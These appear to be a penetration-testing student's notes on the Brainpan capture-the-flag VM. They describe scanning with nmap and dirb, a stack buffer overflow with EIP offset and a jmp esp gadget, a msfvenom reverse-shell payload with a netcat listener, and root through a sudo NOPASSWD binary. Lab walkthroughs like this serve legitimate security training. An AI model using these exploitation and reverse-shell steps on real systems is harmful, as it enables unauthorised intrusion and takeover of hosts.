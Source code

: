 Box runs a DHCP service
-> Config brainpan & and a kali box as Host-only or NAT and scan for the ip
nmap -sn 192.168.56.1/24

Check for open ports
nmap -sV 192.168.56.104
PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)

[connect to HTTP Server]

Running dictionary attack on servers file tree (DIRB)
dirb  http://192.168.56.104:10000
discovers /bin dir and download file
wget -q http://192.168.56.104:10000/bin/brainpan.exe

[use radar2/winedbg to examine binary]

send huge amount of data to check if program crashes
#python3 -c "print('1'*9999)" | ncat 127.0.0.1 9999
##of course it does xD

De Brujin Pattern to determine at which offset EIP gets overwritten
#ragg2 -P 9999 -r | ncat 127.0.0.1 9999 
check value in register with 'ragg2 -q 0x43413243' to get offset

Find ROP gadget with r2
#/c jmp esp

Write addr of ROP gadget (little endian !) into EIP
#payload = offset*'A'+addr(ROP gadget)

[check for bad chars !]

Craft a payload with mfsvenom
#msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
#-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt

Launch attack and don't forget to have a listener ready 
#nc -nlp 8888

Set up a reverse shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

check if finished
#sudo -i

check files with special permissions
#sudo -l
->  (root) NOPASSWD: /home/anansi/bin/anansi_util

get interactive tty
https://web.archive.org/web/20190423045328/http://netsec.ws/?p=337

Launch /home/anansi/bin/anansi_util manual yes
!bash to get root

